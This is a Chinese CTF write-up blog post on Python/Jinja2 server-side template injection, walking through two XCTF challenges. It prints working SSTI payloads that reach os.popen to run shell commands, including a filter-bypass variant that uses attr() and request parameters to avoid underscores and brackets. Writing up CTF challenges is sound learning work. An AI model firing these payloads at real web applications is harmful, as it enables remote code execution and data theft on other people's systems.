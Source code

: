 ```yaml
---
title: SSTI
date: 2020-12-22 
description: XCTF华为专场的mine-1，触及到了知识盲区。这就是大佬们的签到题吗？
category: 信息安全
tags:
  - CTF
  - SSTI
---
```

# 一个小插曲，我渗透我自己
写这篇文章的时候Jekyll竟然把`{% raw %}{{}}{% endraw %}`里面给我当liquid代码执行了。同学的hexo没问题，试了一下因为多终端过于憨批，折腾了半天用回了Jekyll  
这CTF打的，我渗透我自己  
解决办法  
{% raw %}
	具体内容，我要用无数个括号{{}}{{{{{}}}}}
{% endraw %}
# 老题新做,梦开始的地方
## 手工遍历的菜鸡，像极了当初的自己
攻防世界上的一道题：Web_python_template_injection，之前做过一次，这次感觉前前后后理解明白了（来源又是XCTF，这是杠上了）  
这道题什么都没有过滤  
ls的payload:
```python
{% raw %}
{{().__class__.__base__.__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
{% endraw %}
```
为了防止忘了，还是把每个指令的作用记录一下
```
__class__返回参数类型	().__class__就返回了tuple类型
__base__或__mro__返回基类。__mro__其实返回的是解析方法调用的顺序（method resolution order），返回的东西多
__subclasses__获取基类的子类
__getitem__切片操作。'os'所在的'site._Printer'是78个，所以用77
__init__类的初始化方法
__globals__对包含函数全局变量的字典的引用
__builtins__里面是自建模块
eval可以把数据整合成str格式
__import__("os")加载os
```
这个题不能用下面的request的方法，会直接跳过{{}}，因为是不是`/msg={{}}`，而是`/{{}} ` 
`ls`查看的是当前目录
![ls当前目录](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/ls%E5%BD%93%E5%89%8D%E7%9B%AE%E5%BD%95.png)
看到了fl4g文件  
`ls /`查看的是根目录
![根目录文件](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/ls%E6%A0%B9%E7%9B%AE%E5%BD%95.png)
因为已经看到flag了，所以用`pwd`查看绝对路径，看看flag到底在哪个文件，假装自己遍历了
![在404](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/pwd.png)
竟然在一个叫404的文件夹下面，刚开始还以为是url里的404  
`ls /404`可以看到flag文件
![看到了flag文件](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/ls%E5%BD%93%E5%89%8D%E7%9B%AE%E5%BD%95.png)
最后用`cat fl4g`读取文件
![flag](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/flag.png)
## 都0202年了，遍历这事还是写程序吧

# XCTF mine1_1
这道题大括号里过滤了`_` `[]` `''` `""`以及`args`  
如果只过滤`[]`的话，payload长这样：
```
{% raw %}
{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}
{% endraw %}
```
因为又过滤了下划线，payload长这样：
```
{% raw %}
{{()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)()|attr(request.values.x4)(77)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4)(request.values.x7)|attr(request.values.x4)(request.values.x8)(request.values.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
{% endraw %}
```
`args`没被过滤的话也能用。学长也有用`request.cookie.x1`做的，用bp抓包添加cookie值。
